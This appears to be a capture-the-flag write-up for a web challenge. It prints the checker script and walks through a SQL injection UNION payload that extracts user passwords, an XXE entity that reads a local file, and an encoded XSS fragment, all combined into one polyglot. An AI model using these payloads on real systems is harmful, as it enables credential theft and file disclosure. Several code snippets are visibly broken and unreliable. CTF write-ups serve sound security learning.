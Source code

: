 # SECURE BUG CTF

It was awesome ctf ,so let's enjoy with writeup.

# web challenges:

## 1- ALLLn1(medium)

![Screenshot at 2021-07-21 12-39-35](https://user-images.githubusercontent.com/52857059/126521585-a4841180-b58a-4e82-b9d3-93429f94495b.png)

if we go to source directory we will see source code of page , it is js code.  

![Screenshot at 2021-07-21 18-16-09](https://user-images.githubusercontent.com/52857059/126523341-739e3200-9c9b-4f6b-9d47-4e8009cf27b6.png)

we notice when returns "parabens hackudo" we get the flag , else we get nope.

let's take second script & test our payload locally

```html
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")



function test_xxe(payload) {

	try {
		var my_secret = Math.random().toString(36).substring(2) ;
		fs.writeFileSync("/home/gnx/script/xxe_secret",my_secret)
		var doc = libxml.parseXml(payload, { noent: true ,nonet: true })
		return doc.toString().includes(my_secret) 
		
	} catch (e) {
		return false
	}
} 

async function test_xss(payload) {
	try {
		const browser = await puppeteer.launch({args:['--no-sandbox', '--disable-setuid-sandbox','--disable-dev-shm-usage','--disable-accelerated-2d-canvas','--no-first-run','--no-zygote','--single-process','--disable-gpu']})
		const page = await browser.newPage()
		page.setDefaultNavigationTimeout(1000);
		payload = sanitizeHtml(payload,{allowedTags:[]})
		await page.goto(`data:text/html,<script>${payload}</script>`)
		const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )") // vlw herrera

		await browser.close()
		
		return check

	} catch (error) {
		console.error(error)
	}

}

async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : process.env.MYSQL_HOST || "127.0.0.1",
		user : process.env.MYSQL_USER,
		password : process.env.MYSQL_PASSWORD,
		database : process.env.MYSQL_DATABASE,
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main(args){

	var xss = test_xss(args[0])
	var sqli = test_sqli(args[0])
	var xxe = test_xxe(args[0])

  Promise.all([xss,sqli]).then( function( values ){
                if ( values[0] && values[1] && xxe ) {
                        console.log("parabens hackudo")
                } else {
                        console.log("hack harder")
                }

                process.exit(0)
        })
	
}

main(process.argv.slice(2))

```
let's start with sqli test :

sql injection payload  
```html 
' UNION SELECT 1, 2 , password FROM users -- - 
```
![Screenshot at 2021-07-21 18-42-41](https://user-images.githubusercontent.com/52857059/126526899-14f9eecd-a648-4d7e-9e7f-84eed2cf6870.png)
 yes, it works

```html
async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : "127.0.0.1",
		user : "root",
		password : "root",
		database : "foo",
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main() {
	let sql_payload = "' UNION SELECT 1, 2 , password FROM users -- - "
	
	var sqli = test_sqli(payload)

	Promise.all([sqli]).then( function( values ){
		console.log('SQL: ' + values[0])

		process.exit(0)
	})

	
}

```
  if we access this file locally it returns true , so first test is done.
  
  XXE test 
  xxe payload 
  ```html
<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///root/ctf/payload/src/xxe_secret'>]><root>&test;</root>
```
```html
function test_xxe(payload) {

	try {
		var my_secret = Math.random().toString(36).substring(2) ;
		fs.writeFileSync("/root/ctf/payload/src/xxe_secret",my_secret)
		var doc = libxml.parseXml(payload, { noent: true ,nonet: true })
		return doc.toString().includes(my_secret) 

	} catch (e) {
		return false
	}
} 

unction main() {
	let sql_payload = "' UNION SELECT 1, 2 , password FROM users -- - "
	let xxe_payload = "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///root/ctf/payload/src/xxe_secret'>]><root>&test;</root>"
	
	//var sqli = test_sqli(payload)
	var xxe = test_xxe(xxe_payload)
	

	Promise.all([sqli,xss]).then( function( values ){
		console.log('SQL: ' + values[0])
		console.log('XEE: ' + xxe)
		

		process.exit(0)
	})

	
}

```
if we access this file locally it returns true , so second test is done.
  
A Payload to rule them all :
```html 
unction main() {
	
let payload ="<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM \"file:///home/gnx/scriptxxe_secret\">]><root><textarea>&test;</textarea><script>' UNION SELECT 1, 2 , password FROM users -- -</script><c>%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3e%78%73%73%3d%31</c></root>"

	var sqli = test_sqli(payload)
	var xxe = test_xxe(payload)
	var xss = test_xss(payload)

	Promise.all([sqli,xss]).then( function( values ){
		console.log('SQL: ' + values[0])
		console.log('XEE: ' + xxe)
		console.log('xss: ' + values[1])

		process.exit(0)
	})
```
if we run this file locally it returns true , so test is done.

![Screenshot at 2021-07-21 12-50-50](https://user-images.githubusercontent.com/52857059/126530723-1d1e466b-825e-48a2-9d6b-5c0efc6d5ddc.png)

